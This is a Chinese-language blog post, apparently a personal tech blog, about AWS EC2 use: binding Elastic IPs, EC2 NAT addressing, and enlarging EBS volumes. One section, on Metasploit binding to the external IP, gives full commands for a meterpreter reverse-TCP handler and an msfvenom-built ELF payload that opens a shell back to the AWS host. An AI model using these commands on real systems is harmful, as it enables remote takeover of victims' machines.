 ```yaml
---
title: AWS亚马逊云服务器使用（二）
categories:
- tools
tags:
- tools
---
```


上一篇：[AWS亚马逊云服务器搭建与使用](https://whale3070.github.io/tools/2019/08/31/10-x/)

## 绑定弹性IP

参考资料：[https://docs.aws.amazon.com/zh_cn/AWSEC2/latest/UserGuide/elastic-ip-addresses-eip.html](https://docs.aws.amazon.com/zh_cn/AWSEC2/latest/UserGuide/elastic-ip-addresses-eip.html)

`弹性IP`是aws的一个特性，它可以分配给A实例，当你不想要A实例的时候，又可以分配给B实例。于是IP是不变的，但是IP对应的机器却变了。这样比较方便，使用者完全感受不到底层的变化。

当我们把`弹性IP`和`实例`关联以后，就不用担心IP会变化了。如果不使用`弹性IP`，实例重启后，分配的IP可能会改变。

---
`ifconfig`，只有两个网卡，一个内网地址、一个本地环回地址。没有外网IP。

亚马逊云服务器外网IP与内网IP之间是通过一对一的NAT实现的，内网Ip配置在网卡上，外网Ip配置在网关上。如有需要绑定IP的场景，直接绑定内网IP即可，可以转发到外网IP上

![1](https://raw.githubusercontent.com/Whale3070/Whale3070.github.io/master/images/09-13-12/1.PNG)

第一步：
![2](https://raw.githubusercontent.com/Whale3070/Whale3070.github.io/master/images/09-13-12/2.PNG)

![3](https://raw.githubusercontent.com/Whale3070/Whale3070.github.io/master/images/09-13-12/3.PNG)

![5](https://raw.githubusercontent.com/Whale3070/Whale3070.github.io/master/images/09-13-12/5.PNG)

![6](https://raw.githubusercontent.com/Whale3070/Whale3070.github.io/master/images/09-13-12/6.PNG)

## msf绑定外网ip失败

当在aws上部署msf的时候，监听外网IP，却提示`Handler failed to bind to 本地外网IP`

![7](https://raw.githubusercontent.com/Whale3070/Whale3070.github.io/master/images/09-13-12/7.PNG)

于是测试一下，msf监听，反弹shell是否能反弹成功。

aws监听：

```
handler -H aws外网IP -P 6678 -p linux/x86/meterpreter/reverse_tcp
```
目标机器：执行payload.elf
```
msfvenom -p linux/x86/meterpreter_reverse_tcp LHOST=aws外网IP LPORT=6678 -f elf -o payload.elf

./payload.elf
```
aws确实是可以反弹成功的。

所以handler绑定失败是正常的，提示在0.0.0.0监听，意思是监听所有网卡的该端口。
![7](https://raw.githubusercontent.com/Whale3070/Whale3070.github.io/master/images/09-13-12/7.PNG)

## 扩大硬盘空间

aws EC2默认只有8GB，当要存储需要用的软件时，空间不够，可以选择扩大卷。

https://amazonaws-china.com/cn/blogs/china/amazon-ebs-elastic-volumes/

https://kionf.com/2017/11/15/linux-aws-ebs/

